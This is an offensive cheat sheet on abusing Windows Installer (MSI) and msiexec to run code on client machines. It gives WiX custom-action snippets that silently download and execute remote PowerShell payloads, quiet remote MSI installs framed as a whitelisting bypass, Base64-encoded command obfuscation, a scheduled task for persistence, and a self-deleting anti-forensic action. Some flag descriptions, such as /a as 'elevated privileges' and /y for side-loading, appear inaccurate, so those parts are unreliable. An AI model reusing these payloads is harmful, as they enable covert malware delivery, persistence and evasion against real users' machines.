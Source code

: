 

### **Client-Side Code Execution with Windows Installer (MSI)**

#### ** Basic MSI Execution**
- **Running an MSI file using `msiexec`**:
  
  ```sh
  msiexec /i path\to\installer.msi
  ```

- **Running an MSI with elevated privileges**:
  
  ```sh
  msiexec /a path\to\installer.msi
  ```

#### **Executing Embedded Payloads in an MSI**
- **Incorporating a Payload in Custom Actions**:

  Custom actions in MSI can be used to execute arbitrary commands or scripts.

  ```xml
  <CustomAction Id="PayloadAction"
                Directory="TARGETDIR"
                ExeCommand="powershell.exe -NoProfile -ExecutionPolicy Bypass -Command &quot;IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot;"
                Execute="deferred"
                Return="check"/>
  
  <InstallExecuteSequence>
    <Custom Action="PayloadAction" After="InstallFinalize">NOT Installed</Custom>
  </InstallExecuteSequence>
  ```

  This XML fragment can be included in the MSI's `InstallExecuteSequence` to run a PowerShell payload during installation.

#### ** MSI for Payload Delivery**
- **Using `msiexec` to Download and Execute a Payload**:
  
  The following command downloads and executes a payload directly from a remote server:

  ```sh
  msiexec /q /i http://example.com/payload.msi
  ```

  The `/q` flag is used to run the MSI in quiet mode, without user interaction.

#### **Bypassing Execution Restrictions**
- **Leveraging `msiexec` to Bypass Application Whitelisting**:

  `msiexec` is often whitelisted in enterprise environments, making it a useful tool for executing malicious payloads:

  ```sh
  msiexec /q /i http://example.com/malicious.msi
  ```

- **Abusing `msiexec` for DLL Side-Loading**:

  You can side-load a malicious DLL using a legitimate MSI package:

  ```sh
  msiexec /y malicious.dll /q /i legitimate.msi
  ```

#### **Obfuscating MSI Execution**
- **Encoding `msiexec` Commands**:

  Use PowerShell to encode and execute MSI commands:

  ```powershell
  $command = 'msiexec /i http://example.com/payload.msi /quiet'
  $encodedCommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($command))
  powershell.exe -encodedCommand $encodedCommand
  ```

#### **Custom Action Execution**
- **Running Commands through MSI Custom Actions**:

  You can use custom actions to execute commands during different phases of MSI installation:

  ```xml
  <CustomAction Id="LaunchApp" FileKey="YourExeFile" ExeCommand="" Return="asyncNoWait"/>
  <InstallExecuteSequence>
    <Custom Action="LaunchApp" After="InstallFinalize"/>
  </InstallExecuteSequence>
  ```

- **Using VBS in Custom Actions**:

  If you need to execute a VBScript:

  ```xml
  <CustomAction Id="RunVBScript" Script="vbscript" Execute="deferred" Return="ignore">
    <![CDATA[
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "powershell -exec bypass -NoProfile -WindowStyle Hidden -Command ""IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"""
    ]]>
  </CustomAction>
  ```

#### **MSI and Persistence**
- **Adding a Scheduled Task via MSI**:

  You can use a custom action to create a scheduled task for persistence:

  ```xml
  <CustomAction Id="AddScheduledTask" Directory="TARGETDIR" ExeCommand="schtasks /create /tn &quot;Updater&quot; /tr &quot;powershell.exe -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot; /sc onstart" Return="asyncNoWait"/>
  <InstallExecuteSequence>
    <Custom Action="AddScheduledTask" After="InstallFinalize"/>
  </InstallExecuteSequence>
  ```

#### **Anti-Forensic Techniques**
- **Self-Deleting MSI**:

  Include a custom action that deletes the MSI file after execution:

  ```xml
  <CustomAction Id="SelfDelete" Script="vbscript" Execute="deferred" Return="ignore">
    <![CDATA[
    Set fso = CreateObject("Scripting.FileSystemObject")
    fso.DeleteFile WScript.ScriptFullName
    ]]>
  </CustomAction>
  ```

